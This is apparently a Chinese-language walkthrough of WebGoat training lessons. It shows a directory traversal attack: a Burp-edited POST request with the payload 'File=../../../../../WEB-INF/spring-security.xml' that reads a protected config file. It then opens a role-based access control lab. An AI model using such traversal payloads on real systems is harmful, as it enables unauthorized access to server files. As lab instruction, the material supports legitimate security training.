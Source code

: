 ![image]({path}/2.png) 


## Bypass a Path Based Access Control Scheme（绕过路径访问控制方案）
‘webgoat’用户可以访问lessonPlans/en目录中的所有文件。 尝试破坏访问控制机制并访问不在列出的目录中的资源。 选择要查看的文件后，WebGoat将报告是否授予对文件的访问权限。 尝试获取的有趣文件可能是像WEB-INF/spring-security.xml这样的文件。 请记住，文件路径将根据WebGoat的启动方式而有所不同。

当前路径：


```
/.extract/webapps/WebGoat/plugin_extracted/plugin/BlindStringSqlInjection/lessonPlans/en/BlindStringSqlInjection.html
```

![image]({path}/3.png) 


现在我们要获取WEB-INF/spring-security.xml文件的内容。首先说一下../代表上一级目录，其次我们要找到文件的路径，最后更改文件路径。

操作如下，使用burpsuit修改File参数的内容：


```
POST /WebGoat/attack?Screen=231255157&menu=200 HTTP/1.1
Host: 192.168.1.210:7777
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.210:7777/WebGoat/start.mvc
Content-Length: 50
Cookie: JSESSIONID=B8907B42F9751C6E4337FA3B8FDB43BD; PHPSESSID=cl1c210ok5rrhqfhcjfu2f0pp4; security=medium
Connection: close

File=../../../../../WEB-INF/spring-security.xml&SUBMIT=View+File
```

 
![image]({path}/4.png) 

![image]({path}/5.png) 

 

## LAB: Role Based Access Control（基于角色的访问控制）
该类型分四个阶段，故而在下面阶段演示。

## Stage 1: Bypass Business Layer Access Control（阶段1：绕过业务层访问控制）
作为普通员工“tom”，利用弱访问控制来使用“职员列表”页面中的“删除”功能。验证可以删除汤姆的个人资料。用户的密码是小写的给定名称（例如Tom Cat的密码是“tom”）。

![image]({path}/6.png) 
